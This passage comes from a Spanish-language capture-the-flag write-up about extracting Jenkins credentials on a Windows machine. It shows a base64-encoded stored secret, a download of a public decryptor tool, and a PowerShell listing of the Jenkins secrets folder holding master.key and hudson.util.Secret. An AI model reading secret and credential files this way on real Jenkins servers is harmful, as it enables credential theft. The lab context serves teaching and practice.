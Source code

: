 Parece haber una contraseña en base64, pero no está en texto claro

```null
echo AQAAABAAAAAQqU+m+mC6ZnLa0+yaanj2eBSbTk+h4P5omjKdwV17vcA= | base64 -d; echo
O`frjxxNOh2]{
```

En [Github](https://github.com/hoto/jenkins-credentials-decryptor) hay un repositorio que automatiza el desencriptado

```null
curl -L \
  "https://github.com/hoto/jenkins-credentials-decryptor/releases/download/1.2.0/jenkins-credentials-decryptor_1.2.0_$(uname -s)_$(uname -m)" \
   -o jenkins-credentials-decryptor

chmod +x jenkins-credentials-decryptor
```

En el panel de ayuda se puede ver los datos que necesito

```null
./jenkins-credentials-decryptor
Please provide all required flags.

Usage:

  jenkins-credentials-decryptor \
    -m master.key \
    -s hudson.util.Secret \
    -c credentials.xml \
    -o json
```

Se encuentran en el directorio ```secrets```

```null
cmd /c powershell -c dir -force ..\..\secrets
```

```null
C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\Testing>cmd /c powershell -c dir -force ..\..\secrets 


    Directory: C:\Users\oliver\AppData\Local\Jenkins\.jenkins\secrets


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----       10/20/2021  10:08 PM                filepath-filters.d                                                    
d-----       10/20/2021  10:08 PM                whitelisted-callables.d                                               
-a----       10/20/2021  10:26 PM            272 hudson.console.AnnotatedLargeText.consoleAnnotator                    
-a----        2/14/2023   7:29 AM             48 hudson.console.ConsoleNote.MAC                                        
-a----       10/20/2021  10:26 PM             32 hudson.model.Job.serverCookie                                         
-a----       10/20/2021  10:15 PM            272 hudson.util.Secret                                                    
-a----       10/20/2021  10:08 PM             32 jenkins.model.Jenkins.crumbSalt                                       
-a----       10/20/2021  10:08 PM            256 master.key                                                            
```